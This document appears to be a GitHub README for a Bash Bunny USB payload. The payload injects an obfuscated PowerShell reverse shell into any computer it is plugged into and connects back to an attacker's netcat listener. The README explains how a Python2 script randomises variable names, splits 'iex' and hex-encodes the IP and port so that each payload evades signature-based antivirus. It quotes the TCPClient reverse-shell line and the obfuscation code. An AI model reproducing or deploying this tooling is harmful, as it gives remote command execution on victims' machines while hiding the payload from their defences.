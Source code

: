 
# PolyWog-Shell 
### By: Hak5Peaks


## PolyWog Shell Description. 

Poly shell is a reverse shell generator designed for the Bash Bunny. This payload uses a python2 + bash script to generate a signature unique powershell payload, that evades signature based detection anti viruses. Every time the bash bunny is plugged into a computer, a unique powershell script will be injected into the target machine. 

The python2 script uses a base powershell payload and randomizes/obfuscates parts of the powershell payload. Using methods such as variable and string Obfuscation and IP and Port Encoding

## LED. 

- Blue, payload has started and is running.
- Red, Payload failed, most likely due to missing `shell.py`
- Green, payload has completed. 


## Configuations. 

This script requires minimal configuration. simply launch a nc listener `nc -lvnp PORT` and copy the IP and Port from your listener into the IP and Port variable on the payload. Then place the python2 script `shell.py` inside of the `tools` directory of the udisk.
 

### Shell + Payload configuation Example
<div style="display: flex; justify-content: center; gap: 10px;">
    <img src="https://github.com/user-attachments/assets/874226a5-6d3e-47d4-93bd-70fbf0ef5d2a" width="45%">
    <img src="https://github.com/user-attachments/assets/7f656678-575e-43b3-8988-a60a70b01169" width="45%">
</div>

### Udisk configuration Example

![image](https://github.com/user-attachments/assets/daf4b620-5d38-4ceb-86b0-95edafd0494d)


## Requirements. 

Ensure correct configuation as stated above. There is `no` other requirments or external packages that need to be install. 




# For anyone interest in the code! ↓




## Code break down - Base powershell script. 

![image](https://github.com/user-attachments/assets/4fb614fe-7593-4b43-ac6c-46bcecf88b3d)


This is the base powershell script that is plugged into the python2 script. It is a simple reverse shell that uses `System.Net.Sockets.TCPClient` to make remote connections to our netcat listener. This connection is TCP connection is kept open and the script waits for a response back from the netcat server and runs the results in shell  using `Invoke-Expression` Once a command is received and ran the output of the command is sent back using `StreamWriter` to the remote IP and Port specified in the powershell payload. Very simple :D 



## Code break down - Python obfuscator script. 

![image](https://github.com/user-attachments/assets/a4c96bab-5d59-43c3-b1d8-099a7b43eb1a)

This is the python script that stores our original powershell payload. The python script's job is to use regexing to modify, randomize and replace parts of our original powershell payload in order to create a brand new payload that achieves the same functionality as the original. 

It does it using these functions, 

First, when the script is called it takes in our command line arguments from the bash script and stores them as variables within the script 
```
ip = sys.argv[1]
port = sys.argv[2]
```
Second, the script replaces our IP and Port within out powershell payload, 
```
script = """$tcp=New-Object System.Net.Sockets.TCPClient('*LHOST*',*LPORT*);...
```
Third, the python script looks for variables names within our powershell payload and replaces them with random letters 
```
var_dict = {}
pattern = re.compile(r'(?!\$PSHOME)(\$[A-Za-z][A-Za-z0-9]+)')
def replace_var(match):
    var_name = match.group(1)
    if var_name not in var_dict:
        var_dict[var_name] = '$' + ''.join(random.sample(string.ascii_letters + string.digits, 10))
    return var_dict[var_name]

script = pattern.sub(replace_var, script)
```
Resulting in a output similar to this `$tcp -> $aBc123dEf4` 
 
Then, the python script will search for certain commands such as `iex` that can be easily changed. without creating conflicts. `iex -> i''ex`
```
pattern = re.compile(r'\biex\b')
script = pattern.sub("i''ex", script)
```
The script then moves on to convert our IP and port numbers to hex. 

```
pattern = re.compile(r'\b(?!65535)([1-9]\d{1,3}|[1-5]\d{4}|6[0-4]\d{3}|65[0-4]\d{2}|655[0-2]\d|6553[0-5])\b')
def port_to_hex(match):
    port_number = int(match.group())
    return hex(port_number)

script = pattern.sub(port_to_hex, script)
```
The brand new powershell payload is stored as shell.txt so its contents can later be used inside out bash bunny payload. 



